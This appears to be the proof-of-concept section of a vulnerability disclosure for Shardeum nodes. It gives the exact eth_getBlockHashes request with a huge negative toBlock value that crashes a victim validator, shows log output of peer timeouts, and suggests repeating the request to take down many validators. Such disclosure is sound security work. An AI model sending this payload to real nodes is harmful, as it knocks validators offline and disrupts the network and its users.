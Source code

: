 

## Proof of Concept

**Step 1-** Start the Shardeum network locally.

**Step 2-** Wait until cycle counter 15, where all nodes are active.

**Step 3-** Visit the following link: http://`SERVER_IP`:`VICTIM_PORT`/eth_getBlockHashes?fromBlock=0&toBlock=-9999999999999999

> Replace `SERVER_IP` with the IP of the server and `VICTIM_PORT` with the PORT where the victim node is running.

You have now bricked the node.

- Visit the network monitor at `http://SERVER_IP:3000` and you will see a red dot over the victim node, instead of a green one.

- Some nodes will try to interact with the victim and all their messages will timeout.

Below is an example of the output from a healthy node running in port 9002, trying to interact with the victim node to compare certs:

```
[2024-07-27T23:52:09.028] [ERROR] main - Network timeout (askBinary) on binary/compare_cert: askBinary: request timed out. "key_binary/compare_cert_f94cx0831f_1722142324006_33" 
Stack trace:
Error: askBinary: request timed out. "key_binary/compare_cert_f94cx0831f_1722142324006_33"
    at onTimeout (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/network/index.ts:455:23)
    at Timeout.reqTimeoutScheduler [as _onTimeout] (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/shardus-core/node_modules/@shardus/net/src/index.ts:233:5)
    at listOnTimeout (node:internal/timers:571:11)
    at processTimers (node:internal/timers:512:7) node: Node ID : 689903b9dd55fb9078f9d7204a8ac3755119dfdc99f956f1ab41005616fd60ef Node Address : fbb6f5d02245453e8d53f2e56127e8bde9f56a393dd87efa630ecca845555860 externalPort : 9005 externalIP : 127.0.0.1
```
> This output is from a log file located at `./instances/shardus-instance-9002/logs/main.log` - the victim node was running at port 9005 and the healthy one trying to contact him was at port 9002.

Repeat **Step 3** as many times as desired to take down as many validators as you wish.
